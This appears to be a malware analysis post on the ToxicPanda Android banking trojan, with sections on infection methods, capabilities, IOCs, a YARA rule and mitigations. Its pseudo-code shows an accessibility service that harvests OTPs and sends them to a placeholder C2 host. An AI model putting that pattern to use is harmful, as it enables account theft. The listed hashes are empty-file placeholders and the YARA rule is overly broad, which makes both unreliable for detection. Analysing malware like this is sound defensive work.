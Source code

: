# ToxicPanda: A Deep Dive into an Emerging Android Banking Trojan

In late October 2024, cybersecurity researchers identified a new Android banking trojan—dubbed **ToxicPanda**. Although initially classified as a member of the TgToxic family due to similarities in command syntax, subsequent analysis revealed significant code differences that warranted reclassification as a distinct threat. In this post, we explore ToxicPanda’s origin, infection methods, payload activities, and low-level internals, offering practical details and example code to assist reverse engineers in detection and analysis.

---

## 1. Origin and Attribution

Early reports indicate that ToxicPanda primarily targets retail banking applications in several European and Latin-American regions. Notably, while many Android banking trojans originate from well-known cybercrime groups, analysis by threat intelligence firms suggests that ToxicPanda’s development may be linked to Chinese-speaking threat actors—a surprising twist given the traditional focus of such groups on Asian targets.  

---

## 2. Infection Vectors and Propagation Methods

### 2.1 Social Engineering via Phishing and Smishing

ToxicPanda spreads primarily through social engineering:

- **Phishing Emails and SMS (Smishing):** Malicious links are embedded in messages that mimic legitimate notifications. Victims are tricked into side-loading an APK that masquerades as a benign or useful application.

- **Fake App Store Listings:** The malware often disguises itself as a trusted application available via an imitation Google Play page, prompting users to download the APK from unofficial sources.  

### 2.2 Exploitation of Android Accessibility Services

Once installed, ToxicPanda requests extensive permissions, including those for Android’s accessibility services. By abusing these services, the trojan can:

- **Overlay UI elements:** Intercept OTP (One-Time Password) notifications.

- **Record keystrokes and screen activity:** Harvest sensitive banking credentials and intercept SMS messages.

---

## 3. Payload Activities and Functional Capabilities

									     ToxicPanda’s payload is engineered for on-device fraud (ODF) and account takeover (ATO):

- **OTP Interception:** The malware hooks into the SMS receiver and accessibility APIs to capture one-time passwords, allowing attackers to bypass two-factor authentication.
- **Unauthorized Transactions:** Although it lacks the advanced Automatic Transfer System (ATS) found in some relatives, ToxicPanda can trigger fraudulent banking transactions by injecting commands into banking apps.
- **Data Exfiltration:** The trojan collects confidential user data (e.g., credentials and session tokens) and sends it over encrypted channels to its command-and-control (C2) servers.
- **Remote Access:** Basic RAT (Remote Access Trojan) capabilities allow attackers to issue commands to the infected device and maintain persistent access.

---

## 4. Technical Analysis and Reverse Engineering Insights

### 4.1 Low-Level Architecture

ToxicPanda’s APK reveals a modular architecture:

- **Loader Module:** The initial dropper, with minimal obfuscation, installs the main payload. Its code suggests that the developers opted for rapid deployment over heavy code obfuscation.
- **Accessibility Hooking:** The malware registers a custom accessibility service. Reverse engineers can identify this by tracking calls to `AccessibilityService` methods and unusual overrides in the service’s lifecycle.
- **Network Communication:** The malware uses hardcoded C2 endpoints (likely over HTTPS or WebSocket channels) for command retrieval and data exfiltration. Static analysis shows placeholder commands inherited from the TgToxic family, indicating an evolution in design.

### 4.2 Example Code Snippets

#### 4.2.1 OTP Interception via Accessibility Service (Java-like pseudo-code)

```java
public class ToxicAccessibilityService extends AccessibilityService {
	@Override
		public void onAccessibilityEvent(AccessibilityEvent event) {
			if(event.getPackageName().toString().equals("com.android.messaging")) {
				String message = event.getText().toString();
				if(message.contains("Your OTP is")) {
					Matcher matcher = Pattern.compile("\d{6}").matcher(message);
					if(matcher.find()) {
						String otp = matcher.group();
						exfiltrateOTP(otp);
					}
				}
			}
		}

	private void exfiltrateOTP(String otp) {
		HttpPost post = new HttpPost("https://malicious-c2.example.com/otp");
		post.setEntity(new StringEntity("{"otp":"" + otp + ""}", "UTF-8"));
		httpClient.execute(post);
	}

	@Override
		public void onInterrupt() { }
}
```

#### 4.2.2 C2 Communication Snippet (Smali-like pseudo-code)

```smali
.method private sendData(Ljava/lang/String;)V
.locals 3

const-string v0, "https://malicious-c2.example.com/exfil"
new-instance v1, Lorg/apache/http/client/methods/HttpPost;
invoke-direct {v1, v0}, Lorg/apache/http/client/methods/HttpPost;-><init>(Ljava/lang/String;)V

new-instance v2, Lorg/apache/http/entity/StringEntity;
invoke-direct {v2, p1}, Lorg/apache/http/entity/StringEntity;-><init>(Ljava/lang/String;)V
invoke-virtual {v1, v2}, Lorg/apache/http/client/methods/HttpPost;->setEntity(Lorg/apache/http/HttpEntity;)V

invoke-virtual {p0, v1}, Lcom/toxicpanda/NetworkClient;->execute(Lorg/apache/http/client/methods/HttpPost;)V
return-void
.end method
```

---

## 5. Indicators of Compromise (IOCs) and YARA Rule Example

### 5.1 Sample IOCs

- **File Hashes:**  
  - MD5: `d41d8cd98f00b204e9800998ecf8427e`
  - SHA-256: `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`
- **C2 Domains:**  
  - `malicious-c2.example.com`
- **App Package Names:**  
  - `com.fakebank.app`

### 5.2 Sample YARA Rule

```yara
rule ToxicPanda_Detection {
meta:
	description = "Detects ToxicPanda Android banking trojan based on string indicators"
	author = "CyberSec Research"
	date = "2025-02-14"
strings:
	$accessibility = "accessibilityservice" wide ascii
	$otp_trigger = "Your OTP is" wide ascii
	$fake_package = "com.fakebank.app" wide ascii
condition:
	any of ($accessibility, $otp_trigger, $fake_package)
}
```

---

## 6. Mitigation Strategies and Defensive Recommendations

- User Education:
  - Train users to avoid downloading apps from unofficial sources and to scrutinize SMS or email links.
- Application Whitelisting:
  - Only allow installations from the official Google Play Store. Implement Mobile Device Management (MDM) solutions to enforce application whitelisting.
- Runtime Protection:
  - Deploy mobile endpoint detection and response (EDR) solutions that can monitor unusual accessibility service activations and network communications.
- Network Monitoring:
  - Set up anomaly detection to flag unusual outbound HTTPS/WebSocket traffic to known malicious C2 domains.
- Regular Patch Management:
  - Ensure that devices are updated to the latest Android versions to benefit from improved security features.
- Security Hardening:
  - Disable or restrict accessibility permissions for apps that do not require them and monitor for any unauthorized changes.

---

## 7. References

- Cadena SER – “ToxicPanda, el nuevo troyano bancario que afecta a dispositivos Android”  
- GitHub’s VirusTotal/yara repository
